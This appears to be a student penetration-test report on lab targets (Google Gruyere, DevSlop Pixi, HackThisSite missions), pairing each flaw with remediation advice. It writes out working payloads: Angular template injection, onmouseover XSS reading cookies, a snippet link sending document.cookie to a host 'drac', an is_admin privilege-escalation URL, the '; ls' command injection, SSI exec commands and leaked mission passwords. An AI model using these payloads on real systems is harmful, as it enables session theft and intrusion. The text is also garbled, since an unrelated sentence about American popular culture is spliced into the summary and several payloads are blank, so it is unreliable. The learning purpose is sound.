



# CAP II: Bug Bounty Program

# Executive Summary
https://github.com/KeldenPDorji/SWE_SWS101/blob/main/SWS/caps/cap2/report.md

This penetration test was conducted on the GCBS college's network, focusing on three different URLs: 10. Present
I shall prove that the shallow and fickle nature of American popular culture is an appropriate match for the ephemeral and frivolous materialist sentiments promoted by most of its mainstream entertainers by showing that 10.3.21.141:8000, 10.3.21.141:8008, and www. hackthissite. org. The objective of the exercise was to determine and take advantage of the VULNERABILITIES within these URLs to DETERMINE the SECURE POSITION of the network. The test revealed severities in the URLs ranging to the server side and client side problems. This report presents the approach applied, the results yielded by the assessment, the suggestions as well as the steps toward solving each identified issue at the particular URL.

## Approach
In the process of working on this case, the following tactics were employed to scan each URL: The first step was assessing the server-side vulnerabilities, and the second was the client-side attacks. Tools identified from different sources such as PortSwigger’s web security topic were used in an effort to look for vulnerabilities. Every bug expounded was accompanied by an explanation of how it operates, what happens when you engage it, and how you can replicate it with screenshots of the process.

## Assessment Overview and Recommendations
When implemented, the assessment revealed a number of probable weaknesses in the URLs ranging from the SQL injections, Cross-Site Scripting (XSS), and the Insecure Direct Object References (IDOR). Other suggestions include using current and appropriately secure coding linguistics, frequently updating the utilized software and the frameworks it leans on, and conducting comprehensive security checks on the utilized software as well as training the staff members on cybersecurity protocols.

# Website Penetration Test Assessment Summary
# URL 1: 10.3.21.141:8000

# Vulnerability 1: Angular Template Injection
## What is the vulnerability: 
Angular Template Injection can be simplified as by exploiting the angular templates to execute any other code that one wants as it opens doors to Cross Site Scripting (XSS).

## Explanation: 
In this case, the Angular template is changed to clock the alert(1) which causes the function to be executed and a popup window to appear. This can be done by taking advantage of the constructor in the class. constructor property to run any code that might be written in JavaScript in the Angular template.

## Consequences: 
The impacts include the capability of executing any arbitrary JavaScript code alongside the scope of the web application, inclusive of XSS attacks. This may lead to user data leakage, session theft and other malicious attacks either for gaining unauthorized access or other similar purposes.

## Steps to reproduce:
Which of the input field(s) or parameter(s) has the potential to be targeted by Angular Template Injection?
Place the payload {{constructor. constructor('alert(1)')()}} into the injected input field or executed parameter.
Activate the injection through mouse over or by providing inputs such as by submitting a form or by accessing the webpage from the application.
Realize that the author of the page can run any script from the arbitrary JavaScript code section, thus we see that a popup with ‘1’ is shown.
This weakness underlines the requirement for the enablement of Angular interpretor facility for checking against template injection and other similar security measures, and the requirement for the utilization of improved security assays in order to identify vulnerabilities such as this one.

# Vulnerability 2: Cross-Site Scripting (XSS) in Search Field
## What is the vulnerability: 
Cross-Site Scripting (XSS) is a form of web attack in which an attacker puts in malicious scripts into a web application, which is transferred and executed inside the users’ browser session.

## Explanation: 
As observed in this example, the input box of the web application, in this case the search bar, is susceptible to XSS attacks. This can easily be demonstrated by inputting the string  in the search; this places a script in the result, which when rendered creates a pop-up saying xss when called.

## Consequences: 
The effects range from having the ability to hijack one’s sessions, access data of such a person without their consent, and even steal cookies from them. Malicious users can harness the XSS to launch an attack that will execute code of his choice at the user interface level that belongs to the web application in question, exposing users of the application and the application itself to various risks.

## Steps to reproduce:
A sample Web App which is known to contain a vulnerable search functionality should be accessible to achieve this goal.
For instance, type in the string  in the search field.
Submit the search query.
Pay attention to the popup message containing the “xss” string, which means that the injected script was successfully executed.
This weak point also shows that one needs to implement good input validation and output encoding to avoid Cross site scripting attacks. Sanitization measures and Content Security Policy(CSP) are appropriate security measures that can help ward off XSS attacks on web applications.

# Vulnerability 3: Verbose Errors and Insecure Direct Object Reference (IDOR)
## What is the vulnerability: 
The risks are that some of the errors are long and descriptive while the other one is Insecure Direct Object Reference. Explaining in detail, obvious mistakes basically expose critical data about an application whenever they are resolved by any user other than the actual developer. Insecure direct object reference also has higher risks of settings files containing data violating its relevant privileges.

## Explanation:
Verbose Errors: In an open admin path or in case of incorrect authorization of the user who entered the path /admin, or if a user who is not an administrator enters an authorized path, then the application sends the HTTP 500 error, which is accompanied by additional figures that contain information about the application.
Some of the errors give clues to the nature and configuration of the application under test, like the presence of a server. conf file.
When these errors occur at Protection Level 1, they are not noted; however, at Protection Level 2, the responses are deactivated to prevent users from accessing unwanted information.
Insecure Direct Object Reference (IDOR):
Whereas detailed errors contain the information that can be easily used for numerous attacks on the server, such as possessing the file. conf.
It includes sensitive information; for example session_secret which if misused it can be used to hijack session or other malicious activities.

## Consequences:
Information Disclosure: This type of an error message shares specific information about the application’s internals and can help an attacker learn more about the program.
Unauthorized Access: IDOR vulnerabilities represent, in fact, a way to read, find, or request files without authorization, and sometimes even alter configurations related to the whole application.
Session Hijacking: Session_secret available in the output also affords attackers the ability to create session_id values, thus obtaining unauthorized access and escalating privileges.

## Steps to reproduce:
Trigger Verbose Error:
Attempt to access an admin path without being logged in as an admin (e.g., http://example.com/admin).
Observe the HTTP 500 error and note any details revealed about the application's configuration.
Try to access a secret page (e.g., http://ip/secret).
Observe the verbose error message that hints at the existence of the server.conf file.
Verify Protection Levels:
At PL1, access the admin path and secret page, and note that the verbose errors are displayed.
At PL2, attempt the same access and observe that the errors are blocked.

## Exploit IDOR:
Using the information from the verbose errors, directly access the server.conf file 
Note the contents of the file, including the session_secret.

# URL 2: 10.3.21.141:8008

## Vulnerability 1: Cross-Site Scripting (XSS) via onmouseover Attribute

## What is the vulnerability: 
Cross-Site Scripting is a security vulnerability whereby attackers execute malicious code on a web application through injecting code that is read and executed by other users.

## Explanation: 
In this case, the HTML code #Click here! has the following attributes Attributes: Href: # onmouseover: alert (‘dracwuzhere’) The onmouseover event handler set for <a href=“ ”> contains the directive to display an alert message resulting to the phrase "dracwuzhere". This type of XSS vulnerability simply enables attackers to launch pre-programmed JavaScript code in any area of the website whenever the user clicks on the specific element.

## Consequences:  
The problems associated with this kind of cross-site scripting are as follows: Interception, unauthorized access to resources, theft of information, vandalism by changing the layout to have objectionable content, and pointing users to other websites of the attacker’s preference. From this loophole, attackers can perform code injection to gain the ability to run code within the security context of the web application.

## Steps to reproduce:
Insert the vulnerable HTML snippet <a onmouseover="alert(‘dracwuzhere’)" href="#">Click here!</a> into a web page.
Hover over the link labeled "Click here!".
Observe the execution of the alert function, displaying the message "dracwuzhere".

## Vulnerability 2: Cross-Site Scripting (XSS) via onmouseover Attribute

## What is the vulnerability:  
XSS attacks pertain to the act of an attacker placing code into a web application that are then executed by other users.

## Explanation: 
In this scenario, the HTML snippet <a onmouseover="alert(document.cookie)" href="#">Click here2!</a> contains an onmouseover event handler that triggers an alert box displaying the user's cookies. This type of XSS vulnerability allows attackers to execute arbitrary JavaScript code when a user interacts with the malicious element.

## Consequences: 
This cross-site scripting vulnerability has various effects which include: session hijacking attacks, unauthorized access on cookie stored data such as session IDs or login credentials, impersonation attacks where attackers post as users and gain unlawful access to their account.

## Steps to reproduce:

Embed the vulnerable HTML snippet <a onmouseover="alert(document.cookie)" href="#">Click here2!</a> into a web page.
Hover over the link labeled "Click here2!".
Observe the execution of the alert function, displaying the user's cookies.

## Vulnerability 3: Privilege Escalation via URL Parameters

## What is the vulnerability: 
Privilege Escalation occurs when a user gains elevated access to resources that are normally protected from an application or user.

## Explanation: 
In this scenario, the URL 10.3.21.141:8008/608906514139407014036163251434143544001/saveprofile?action=update&is_admin=True includes parameters that can be manipulated by the user. Specifically, the is_admin=True parameter allows the user to escalate their privileges to an admin level by simply modifying the URL.

## Consequences: 
The consequences of this vulnerability include unauthorized access to admin functionalities, potential data breaches, and the ability for attackers to perform privileged actions that they are not authorized to execute. This could lead to severe security breaches, such as data manipulation, unauthorized data access, and system compromise.

## Steps to reproduce:

Access the URL 10.3.21.141:8008/608906514139407014036163251434143544001/saveprofile?action=update&is_admin=True.
Modify the URL parameters, setting is_admin=True.
Submit the modified URL.
Observe that the user is granted admin privileges, demonstrating the privilege escalation vulnerability.

## Vulnerability 4: Insecure Transmission of Credentials via URL Parameters

## What is the vulnerability: 
Transmitting sensitive information such as usernames and passwords directly in the URL is highly insecure and exposes the credentials to potential attackers.

## Explanation: 
In this scenario, the URL 10.3.21.141:8008/608906514139407014036163251434143544001/login?uid=drac&pw=kpdrac includes the uid and pw parameters that contain the username and password, respectively. Including credentials in the URL makes them visible in browser history, server logs, and potentially to intermediaries intercepting the traffic.

## Consequences: 
The consequences of this vulnerability include the risk of credentials being exposed and intercepted, leading to unauthorized access to the system. This can result in data breaches, account takeovers, and other security compromises.

## Steps to reproduce:

Access the URL 10.3.21.141:8008/608906514139407014036163251434143544001/login?uid=drac&pw=kpdrac.
Observe that the credentials are visible in the URL.
Check browser history or server logs to see the logged URL, demonstrating the exposure of sensitive information.

## Vulnerability 5: Path Traversal via URL Encoding

## What is the vulnerability: 
Path Traversal occurs when an attacker can manipulate the file path to access files and directories outside the intended directory.

## Explanation: 
In this scenario, the URL 10.3.21.141:8008/608906514139407014036163251434143544001/..%2fresources/base.css contains the sequence ..%2f, which is a URL-encoded representation of ../. This sequence is used for directory traversal, allowing the attacker to navigate the directory structure of the server and potentially access restricted files or directories.

## Consequences: 
The consequences of this vulnerability include unauthorized access to sensitive files and directories outside the web root. This can expose configuration files, source code, user data, and other sensitive information. If an attacker can manipulate the path to access critical files, it could lead to further exploitation, such as disclosure of sensitive information, system configuration details, and potentially code execution if the server is improperly secured.

## Steps to reproduce:

Access the URL 10.3.21.141:8008/608906514139407014036163251434143544001/..%2fresources/base.css.
Observe that the URL is attempting to access the base.css file by navigating up one directory level using the ..%2f sequence.
If successful, the file will be accessible, demonstrating the path traversal vulnerability.

## Vulnerability 6: File Upload Cross-Site Scripting (XSS)

## What is the vulnerability: 
File Upload Cross-Site Scripting (XSS) occurs when a web application allows users to upload files without properly sanitizing or validating the contents. This vulnerability can be exploited to execute arbitrary scripts in the context of the application's domain.

## Explanation: 
In this scenario, the attacker creates an HTML file named payload.html containing a malicious script such as . The attacker uploads this file via the web application's file upload functionality. Once uploaded, the file is hosted on the web application's domain. When the file is accessed, the script runs in the context of the domain, potentially compromising user data and application security.

## Consequences: 
The consequences of this vulnerability include data theft, session hijacking, malware distribution, website defacement, and phishing attacks. By executing malicious scripts in the context of the web application's domain, attackers can steal cookies, session tokens, or other sensitive information, impersonate users, redirect users to malicious sites, alter website content, or create convincing phishing pages.

## Steps to reproduce:

Create an HTML file named payload.html containing the following script:

This script will display an alert box showing the document's cookies.

Navigate to the file upload section of the target website at 10.3.21.141:8008/608906514139407014036163251434143544001.

Upload the payload.html file.

After the upload, the file will be hosted on the web application's domain or a subdomain.
Access the uploaded file via its URL which would be provided by the webpage.

Script Execution:

When the uploaded file is accessed, the script executes in the context of the domain.
An alert box will appear, displaying the document's cookies.

By following these steps, you can demonstrate the presence of a file upload XSS vulnerability and highlight the potential security risks it poses to the web application.

## Vulnerability 7: File Upload Cross-Site Scripting (XSS)

## What is the vulnerability:
File Upload Cross-Site Scripting (XSS) occurs when a website allows users to upload files without properly sanitizing or validating the contents. This vulnerability enables attackers to inject malicious scripts into the website, leading to unauthorized execution of scripts in the context of other users' browsers.

## Explanation:
The successful File Upload XSS attack on the website at 10.3.21.141:8008. The URL inspected in the developer tools is 10.3.21.141:8008/567699d47880181673356860374609921546336/kpdd/hack.html, indicating the path where the malicious file ("hack.html") has been uploaded. The "GRUYERE" cookie with the value "53717839|kpddl|author" is likely used for session management or authentication purposes. The console output shows "drac hacked you!!", indicating successful execution of the attacker's payload. The popup displays the same cookie value "GRUYERE=53717839|kpddl|author", suggesting that the payload has retrieved and displayed this sensitive information.

This indicates that the attacker has uploaded a malicious file or payload, which is being executed by the website. The attacker's payload likely includes code to retrieve and display the victim's cookie, which could contain sensitive session information.

## Consequences:
The consequences of this vulnerability include unauthorized access to sensitive data such as session information, potential modification of website content, and the ability to execute further attacks in the context of the website.

## Steps to reproduce:

Upload a Malicious File:

Upload a malicious file, such as "hack.html", containing JavaScript code to retrieve and display the victim's cookie.
The payload could include code similar to  to display the cookie.

Access the Uploaded File:

Access the uploaded file through its URL, for example: http://10.3.21.141:8008/uploads/hack.html.
The malicious script within the uploaded file will execute in the context of the website.
Observe the Execution:

Once accessed, the malicious script will execute, potentially exposing sensitive session information and modifying the website's content.

## Vulnerability 8: Reflected Cross-Site Scripting (XSS)

## What is the vulnerability: 
Reflected Cross-Site Scripting (XSS) occurs when a website includes user-supplied data in its output HTML without proper validation or encoding. This allows an attacker to inject malicious scripts, which are then executed by victims' browsers when they visit a crafted URL or submit a form with malicious input.

## Explanation:
The provided URL contains the script , which is being executed by the website. This results in a popup displaying the value "1". In a Reflected XSS attack, the malicious script is included as part of the URL or a parameter that is reflected or echoed back by the server in the website's response. The lack of proper input validation and output encoding on the server allows the script to be executed within the website's context when the crafted URL is visited.

## Consequences:
Reflected XSS attacks can be used to steal sensitive information, such as session cookies or user credentials, by injecting malicious scripts that execute in the victim's browser. It can also be used to perform other malicious actions, like defacing the website or redirecting users to malicious sites.

## Steps to reproduce:
Craft a Malicious URL:
Construct a URL with a parameter containing the malicious script, such as http://example.com/?input=.

Visit the Crafted URL:
Visit the crafted URL or submit a form with the malicious input.

Observe the Execution:
The malicious script will be executed by the victim's browser when the URL is visited, resulting in the execution of the script and potential consequences such as a popup displaying the value "1".

## Vulnerability 9: Reflected Cross-Site Scripting (XSS) via AJAX Request

## What is the vulnerability: 
Reflected Cross-Site Scripting (XSS) occurs when a website includes user-supplied data in its output without proper validation or encoding. This vulnerability allows attackers to inject malicious scripts that execute in the context of the victim's browser when they visit a crafted URL or interact with specific website functionalities.

## Explanation:
In the first image, the URL in the address bar contains a parameter ?uid=<h1>yoodrac</h1>, which is reflected in the page content, displaying "yoodrac" as a heading. This indicates that the website is not properly sanitizing user input before rendering it. The second image shows a different page titled "My Snippets" with the URL containing a parameter ?uid=1.

The hint provided indicates that when the user snippets page is refreshed, the website makes an AJAX request to a specific URL (http://10.3.21.141:8008/567699d47880181673356860374609921546336/feed.gtl?uid=value) and receives a script response in the form _feed((["user", "snippet1", ... ])). This AJAX request is vulnerable to a Reflected XSS attack. An attacker can craft a malicious URL with a payload in the uid parameter, and when the user visits this URL or refreshes the page, the server reflects the payload in the AJAX response. Since the response is executed as code within the browser's context, the attacker's payload can be executed, leading to potential data theft or other malicious actions.

## Consequences:
Reflected XSS attacks can lead to the execution of arbitrary JavaScript code in the victim's browser, allowing attackers to steal sensitive information, manipulate website content, or perform other malicious actions.

## Steps to reproduce:

Craft a Malicious URL:

Construct a URL with a parameter containing the malicious script payload, such as http://10.3.21.141:8008/567699d47880181673356860374609921546336/feed.gtl?uid=.
Visit the Crafted URL:

Visit the crafted URL or trigger the AJAX request by interacting with the vulnerable page.

Observe the Execution:

The malicious script payload will be executed by the victim's browser, potentially leading to unauthorized access to sensitive data or other malicious outcomes.

## Vulnerability 10: Cookie Manipulation for Privilege Escalation

## What is the vulnerability: 
The vulnerability involves manipulation of encoded string parameters in a URL, particularly focusing on the "saveprofile" parameter. By altering this parameter, attackers attempt to exploit weaknesses in the website's authentication and authorization mechanisms to gain unauthorized access with elevated privileges.

## Explanation:
The URL contains a lengthy encoded string parameter named "saveprofile", which appears to be manipulated to exploit potential vulnerabilities. The encoded string includes elements such as an IP address, port number, a username "administrator", the string "admin|author" (possibly indicating admin author privileges), and a password "secret". This manipulation aims to bypass authentication and authorization checks by crafting malicious inputs.

## Consequences:
The consequences of this vulnerability could lead to unauthorized access to sensitive information, manipulation of user accounts, and potential privilege escalation. By crafting a malicious cookie value with the right format, attackers could impersonate admin users and gain unrestricted access to the system, bypassing normal authentication procedures.

## Steps to reproduce:

Craft a Malicious URL:

Construct a URL with a manipulated "saveprofile" parameter, altering the values to impersonate a privileged user or bypass authentication checks.

Send the Malicious Cookie:

Craft a malicious cookie with the format "fakeHash|administrator|1|1" or similar, aiming to impersonate the admin account illicitly.

Send the Request:

Send the crafted URL or cookie to the server, exploiting the vulnerability in the authentication or authorization process.
Observe the Outcome:

If successful, the attacker may gain unauthorized access to privileged accounts or escalate their own privileges within the system.

## Vulnerability 11: Cookie Manipulation for Privilege Escalation via XSS

## What is the vulnerability: 
The vulnerability is a combination of Cross-Site Scripting (XSS) and cookie manipulation, allowing an attacker to inject malicious scripts into the web application. These scripts can steal sensitive cookies and potentially escalate privileges by impersonating users.

## Explanation:
The Gruyere application allows users to add HTML snippets that include JavaScript. By injecting a malicious script, an attacker can redirect users to a malicious URL with their cookies attached, thereby stealing session tokens and other sensitive information. This vulnerability is exacerbated by the ability to inspect and manipulate cookies directly via JavaScript in the console.

## Consequences:
Cookie Theft: Attackers can steal cookies, including session tokens, allowing them to hijack user sessions.
Privilege Escalation: With stolen session tokens, attackers can gain unauthorized access to user accounts and perform actions with elevated privileges.
Data Exposure: Sensitive user information can be exposed if cookies contain personal or authentication data.

## Steps to reproduce:
Inject Malicious Script:

Go to the "New Snippet" section of the Gruyere application.
Inject the following script into the snippet input form:

<a href="javascript:window.location='https://drac/gruyere?data='+document.cookie">hewuzhere</a>

Submit the snippet.
Trigger Script Execution:

Visit the Gruyere home page where the snippet is displayed.
Click on the injected link (hewuzhere).

Inspect Cookies:

Open the browser’s developer tools (usually by pressing F12 or right-clicking and selecting "Inspect").
Go to the "Console" tab.
Execute the following command to view and manipulate cookies:
Document.cookie

Note the _csrf, CSRF-TOKEN, and other cookies.
Simulate Cookie Manipulation:

In the console, manipulate the cookies to simulate privilege escalation:
document.cookie='_csrf=m551NO-VIlknbF5bV5DVrueq; 
CSRF-TOKEN=jtult7Ra-GvpIKXzsInhECqbSaQsb-570v0; GRUYERE=';

By following these steps, an attacker can demonstrate how the XSS vulnerability combined with cookie manipulation can be used to steal sensitive information and escalate privileges within the Gruyere application.

# URL 3: www.hackthissite.org

## Mission 1:
To find the password for Mission 1, right-click on the page, select "View Page Source," and scroll about halfway down to find the comment:

<!-- the first password is 81a90fba -->

## Mission 2:
Submit an empty form to complete Mission 2, as the password file is missing.

## Mission 3:
Review the page source to find:
<input type="hidden" name="file" value="password.php" />

Add this to the URL:
https://www.hackthissite.org/missions/basic/3/password.php

<!-- the third password is a706e514 -->

## Mission 4:
Check the page source to find:
<input type="hidden" name="to" value="sam@hackthissite.org" />

Modify this using inspect:

Right-click near the "Send password to Sam" button and select "Inspect Element (Q)."
Change the "to" value to your email address.
Alternatively, create a local HTML file (mission4.html) with:

<!-- the fourth password is 5956a8bd-->

## Mission 5:
Similar to Mission 4, use the DOM tool to change the "to" value and retrieve the password e5179e8a.

## Mission 6:
Decrypt the provided string 952;;9=m by reversing the encryption offset:

Now, we get our confirmed password.

## Mission 7:
Use UNIX commands to list directory contents:

Enter ; ls in the form.
This reveals k1kh31b1n55h.php.
Visit https://www.hackthissite.org/missions/basic/7/k1kh31b1n55h.php to get the password 42251c49.

<!-- the seventh password is 42251c49-->

## Mission 8:
Use Server Side Includes (SSI):

Enter your name to test the script.
Enter <!--#exec cmd="ls" --> to list files.
Modify to <!--#exec cmd="ls .." --> to list the parent directory, revealing au12ha39vc.php.
Visit https://www.hackthissite.org/missions/basic/8/au12ha39vc.php for the password 7accad49.

## Mission 9:
Use SSI from Mission 8:

Enter <!--#exec cmd="ls ../../9" --> to list the directory for Mission 9.
Visit https://www.hackthissite.org/missions/basic/9/p91e283zc3.php to get the password 85c01395.

## Mission 10:
Modify the cookie:

Open inspect (Shift + F9).
Find the cookie level10_authorized and change its value from no to yes.
Click "Submit" on the form.

.png>)

# Remediation Summary for URL 1: 10.3.21.141:8000

## Vulnerability 1: Angular Template Injection

Issue: Allows arbitrary code execution via user input in Angular templates.
Remediation:
Sanitize inputs using Angular’s built-in functions.
Enable Strict Contextual Escaping (SCE).
Implement a strong Content Security Policy (CSP).
Avoid using eval or Function to interpret strings as code.

## Vulnerability 2: Cross-Site Scripting (XSS) in Search Field

Issue: Allows script injection via the search field, executing in the user's browser.
Remediation:
Validate and sanitize inputs on client and server sides.
Encode outputs to prevent HTML/JavaScript injection.
Implement a strong CSP.
Use security libraries like DOMPurify.

## Vulnerability 3: Verbose Errors and Insecure Direct Object Reference (IDOR)

Issue: Exposes detailed internal information and allows unauthorized access to resources.
Remediation:
Display generic error messages to users and log details server-side.
Implement strict access control checks for sensitive operations.
Validate and sanitize parameters, use indirect object references.
Regularly perform security testing and code reviews.

# Remediation Summary for URL 2: 10.3.21.141:8008
## Vulnerability 1 & 2: Cross-Site Scripting (XSS) via onmouseover Attribute
Issue: Users can inject JavaScript code using the onmouseover attribute, which executes when a user hovers over the affected element.
Remediation: Sanitize user inputs by encoding HTML special characters. Use frameworks or libraries that provide automatic XSS protection. Implement Content Security Policy (CSP) to prevent execution of unauthorized scripts.

## Vulnerability 3: Privilege Escalation via URL Parameters
Issue: URL parameters can be manipulated to escalate user privileges.
Remediation: Implement proper authorization checks on the server-side to verify user privileges for each action. Do not rely solely on client-side checks. Use secure tokens for sensitive operations.

## Vulnerability 4: Insecure Transmission of Credentials via URL Parameters
Issue: Credentials are passed via URL parameters, exposing them to potential interception.
Remediation: Use POST requests instead of GET requests for transmitting credentials. Implement HTTPS to encrypt data in transit. Avoid including sensitive information in URL parameters.

## Vulnerability 5: Path Traversal via URL Encoding
Issue: URL encoding is used to bypass directory traversal protections, allowing access to unauthorized files.
Remediation: Normalize and validate all file paths on the server-side. Implement input validation to reject malicious path characters and sequences. Use a whitelist approach for file access.

## Vulnerability 6 & 7: File Upload Cross-Site Scripting (XSS)
Issue: Malicious scripts can be uploaded and executed when the file is viewed.
Remediation: Validate and sanitize filenames and file contents. Restrict allowed file types and use a secure file storage location. Implement Content Security Policy (CSP) to prevent execution of unauthorized scripts from uploaded files.

## Vulnerability 8: Reflected Cross-Site Scripting (XSS)
Issue: User input is reflected back to the browser without proper sanitization, allowing script injection.
Remediation: Escape or encode all user inputs that are reflected in the HTML output. Use frameworks that automatically mitigate XSS vulnerabilities. Implement Content Security Policy (CSP).

## Vulnerability 9: Reflected Cross-Site Scripting (XSS) via AJAX Request
Issue: User input in AJAX requests is reflected without sanitization, enabling script injection.
Remediation: Sanitize and validate all inputs server-side before reflecting them in responses. Use secure frameworks and libraries that mitigate XSS risks. Implement Content Security Policy (CSP).

## Vulnerability 10: Cookie Manipulation for Privilege Escalation
Issue: Cookies are manipulated to escalate privileges, bypassing authentication checks.
Remediation: Use secure, HttpOnly, and SameSite attributes for cookies to prevent client-side manipulation. Implement server-side session management to verify and enforce user privileges.

## Vulnerability 11: Cookie Manipulation for Privilege Escalation via XSS
Issue: XSS vulnerability is exploited to manipulate cookies and escalate privileges.
Remediation: Protect against XSS attacks by sanitizing and encoding user inputs. Implement secure cookie attributes (HttpOnly, Secure, SameSite) to prevent unauthorized access. Regularly review and update security configurations.

# Remediation Summary for URL 3: www.hackthissite.org

## Mission 1: Source Code Comment Exposure

Issue: The password was exposed in an HTML comment.
Remediation: Avoid placing sensitive information in comments or client-side code. Store passwords securely on the server-side and use server-side authentication mechanisms.

## Mission 2: Missing Password File

Issue: The application accepted an empty form submission.
Remediation: Implement proper input validation to ensure that all required fields are completed before processing the form submission.

## Mission 3: Hidden Input Field Exposure

Issue: A hidden input field exposed a file path that led to the password.
Remediation: Avoid relying on hidden fields for security-related data. Perform all sensitive operations on the server-side.

## Mission 4: DOM Manipulation

Issue: The email address in a hidden field could be manipulated using the DOM.
Remediation: Validate and sanitize all input data on the server-side, ensuring that client-side modifications do not affect server-side processing.

## Mission 5: Similar to Mission 4

Issue: Similar to Mission 4, DOM manipulation was used to change a hidden input field.
Remediation: As with Mission 4, ensure that sensitive actions are validated and handled securely on the server-side.

## Mission 6: Weak Encryption

Issue: A simple and easily reversible encryption method was used.
Remediation: Use strong, industry-standard encryption algorithms (e.g., AES) for sensitive data and ensure encryption keys are managed securely.

## Mission 7: Command Injection via Form Input

Issue: The application allowed command injection by concatenating user input into system commands.
Remediation: Sanitize and validate all user inputs, use parameterized queries, and avoid directly executing commands with user-provided data.

## Mission 8: Server-Side Includes (SSI) Injection

Issue: SSI injection allowed execution of arbitrary commands on the server.
Remediation: Disable SSI if not required. If SSI is necessary, ensure input is properly sanitized and use whitelisting for allowable commands.

## Mission 9: Directory Traversal via SSI

Issue: SSI injection enabled directory traversal to access restricted files.
Remediation: As with Mission 8, ensure strict input validation and sanitization. Implement directory traversal protection mechanisms.

## Mission 10: Insecure Cookie Handling

Issue: Cookie values were manipulated to bypass authentication.
Remediation: Use secure cookies, implement server-side session management, and avoid storing sensitive information in cookies. Validate session data on the server.

### References:

Google Gruyere: https://google-gruyere.appspot.com/

OWASP DevSlop - How the CRS Protects the Vulnerable Web Application PIXI: https://coreruleset.org/20190909/how-the-crs-protects-the-vulnerable-web-application-pixi-by-owasp-devslop/

Hack This Site YouTube Video: https://youtu.be/THYigLFAj64?si=LXWDnsGpOFNF2jBy
